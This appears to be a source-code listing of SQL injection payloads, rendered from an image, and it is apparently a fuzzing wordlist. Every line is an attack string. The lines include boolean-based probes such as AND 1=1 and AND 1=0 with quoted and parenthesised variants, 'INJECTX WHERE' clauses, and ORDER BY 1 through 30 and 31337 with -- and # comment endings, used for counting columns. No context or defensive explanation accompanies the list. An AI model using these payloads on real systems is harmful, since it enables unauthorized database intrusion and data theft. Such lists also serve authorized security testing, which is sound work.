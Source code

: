 ```
 AND 1=0#
 AND 1=1 AND '%'='
 AND 1=0 AND '%'='
 AND 1083=1083 AND (1427=1427
 AND 7506=9091 AND (5913=5913
 AND 1083=1083 AND ('1427=1427
 AND 7506=9091 AND ('5913=5913
 AND 7300=7300 AND 'pKlZ'='pKlZ
 AND 7300=7300 AND 'pKlZ'='pKlY
 AND 7300=7300 AND ('pKlZ'='pKlZ
 AND 7300=7300 AND ('pKlZ'='pKlY
 AS INJECTX WHERE 1=1 AND 1=1
 AS INJECTX WHERE 1=1 AND 1=0
 AS INJECTX WHERE 1=1 AND 1=1#
 AS INJECTX WHERE 1=1 AND 1=0#
 AS INJECTX WHERE 1=1 AND 1=1--
 AS INJECTX WHERE 1=1 AND 1=0--
 WHERE 1=1 AND 1=1
 WHERE 1=1 AND 1=0
 WHERE 1=1 AND 1=1#
 WHERE 1=1 AND 1=0#
 WHERE 1=1 AND 1=1--
 WHERE 1=1 AND 1=0--
 ORDER BY 1-- 
 ORDER BY 2-- 
 ORDER BY 3-- 
 ORDER BY 4-- 
 ORDER BY 5-- 
 ORDER BY 6-- 
 ORDER BY 7-- 
 ORDER BY 8-- 
 ORDER BY 9-- 
 ORDER BY 10-- 
 ORDER BY 11-- 
 ORDER BY 12-- 
 ORDER BY 13-- 
 ORDER BY 14-- 
 ORDER BY 15-- 
 ORDER BY 16-- 
 ORDER BY 17-- 
 ORDER BY 18-- 
 ORDER BY 19-- 
 ORDER BY 20-- 
 ORDER BY 21-- 
 ORDER BY 22-- 
 ORDER BY 23-- 
 ORDER BY 24-- 
 ORDER BY 25-- 
 ORDER BY 26-- 
 ORDER BY 27-- 
 ORDER BY 28-- 
 ORDER BY 29-- 
 ORDER BY 30-- 
 ORDER BY 31337-- 
 ORDER BY 1# 
 ORDER BY 2# 
 ORDER BY 3# 
 ORDER BY 4# 
 ORDER BY 5# 
 ORDER BY 6# 
 ORDER BY 7# 
 ORDER BY 8# 
 ORDER BY 9# 
```